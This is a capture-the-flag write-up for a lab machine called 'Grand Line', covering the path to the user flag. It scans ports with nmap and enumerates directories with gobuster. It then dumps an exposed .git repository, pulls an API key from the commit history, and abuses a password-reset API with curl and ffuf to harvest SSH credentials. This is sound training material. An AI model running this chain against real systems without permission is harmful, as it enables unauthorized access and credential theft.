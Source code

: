 # CTF: Grand Line

![Difficulty: Medium](https://img.shields.io/badge/difficulty-medium-%23ffcc00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre](https://img.shields.io/badge/by-Alexandre-%23f9a03c)  
![alt text](img/grandline.png)
## Description

> I am going to be the pirate king!

## Write-up

Reference to the anime "One Piece". We have to find the user and root flag.

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))

8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have three open ports, 22, 80 and 8081. Let's check the web server on port 80.

```bash
http://$IP
```

![alt text](img/grandline1.png)

We found a page who said 'have you tried the other port ?'. Let's check the web server on port 8081.

We can go to the web server on port 8081.

```bash
http://$IP:8081
```

We have a flask web server running on port 8081. We have buttons to navigate to different pages.   
We can go to /login and have a page "forgot password" with a button to reset the password.

When we go we have a form to reset the password. We can try to reset the password with a random username like `luffy`.

![alt text](img/grandline2.png)

A request was sent but the page refreshes and nothing happens. We can retry the same request with a random username like `luffy` and check the network tab in the browser console.

We can see a POST request to `/api/luffy` with a response `Invalid API Key`.

In the form-data, we can see a `key` field with a value `NULL`

So we know we have to found an API key to reset the password.

After that, let's check with a `gobuster` if we can find any hidden directories.

```bash
gobuster dir -u http://$IP:8081 -w /usr/share/wordlists/dirb/common.txt
```

Results : 
```bash
/lost
```

We found a hidden directory `/lost`. Let's check the web server on port 8081 with the path `/lost`.

```bash
http://$IP:8081/lost
```

Find a `note.txt` file with the following content:

```bash
You're stubborn, I told you everything is on the other port, have you tried nmap ?
```

We can try other `gobuster` scan on port 8081 and `/lost` directory.

```bash
gobuster dir -u http://$IP:8081/lost -w SecLists/Discovery/Web-Content/raft-large-extensions-lowercase.txt
```

Results : 
```bash
.git
```

We found a hidden directory `/.git`. Let's check the web server on port 8081 with the path `/.git`.

```bash
http://$IP:8081/.git
```

We have to download the `.git` directory to extract the source code. We can use `gitdumper.sh` to download the `.git` directory.

```bash
wget --recursive http://<IP>/lost/.git -q
```

We can use `gitdumper.sh` to download the `.git` directory.

```bash
cd <IP>/lost
git log
```

We can see the commit history with filtered commit add and delete files.

```bash
git log --patch > keys
cat keys | grep "key"
-    if(data['key']=='<KEY>'):
-    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
+    if(data['key']=='<KEY>'):
+    xhttp.send('{"key":"NULL"}')       //Removed the API Key to stop the forget password functionality 
```

We can see the key in the commit history. We can use this key to reset the password.

```
curl -X POST http://10.10.215.247:8081/api/luffy -H "Content-Type: application/json" -d '{"key":"<KEY>"}'
{"username":"luffy","password":"ThisIsNotMyPassword"}
```

It's not the password but we can try to brute force to find the correct user password.

We can use `fuff` to brute force the password.

```bash
ffuf -w names.txt -u http://<IP>:8081/api/FUZZ -X POST -H "Content-Type: application/json" -d '{"key":"<KEY>"}' -fr "error" -fs 16
{"username":"<USERNAME>","password":"<PASSWD>"}
```



We found the password and username. We can connect to ssh with credentials. After connecting to the ssh we can find the user flag.

**Well done! You found the user flag!**


